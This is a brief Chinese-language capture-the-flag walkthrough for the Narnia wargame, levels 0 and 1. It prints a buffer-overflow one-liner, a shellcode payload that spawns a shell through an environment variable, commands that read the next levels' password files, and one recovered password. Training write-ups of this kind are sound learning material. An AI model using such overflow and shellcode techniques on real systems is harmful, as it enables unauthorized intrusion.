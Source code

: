 # wargame---narnia

开始信息

## narnia0
使用scanf来读数据，exploit：  
```bash
(python -c "print 'A'*20 + '\xef\xbe\xad\xde'";cat) | ./narnia0
```
此时身份为narnia1,可以读取narnia1的密码文件`cat /etc/narnia_pass/narnia1`:  
efeidiedae  

## narnia1
设置环境变量，执行narnia1，读取用户narnia2的密码即可：  
```bash
export EGG=$(python -c 'print "\x31\xdb\x8d\x43\x17\x99\xcd\x80\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x41\x0b\x89\xe3\xcd\x80"')
/narnia/narnia1
cat /etc/narnia_pass/narnia2

```


---
2018/1/19  
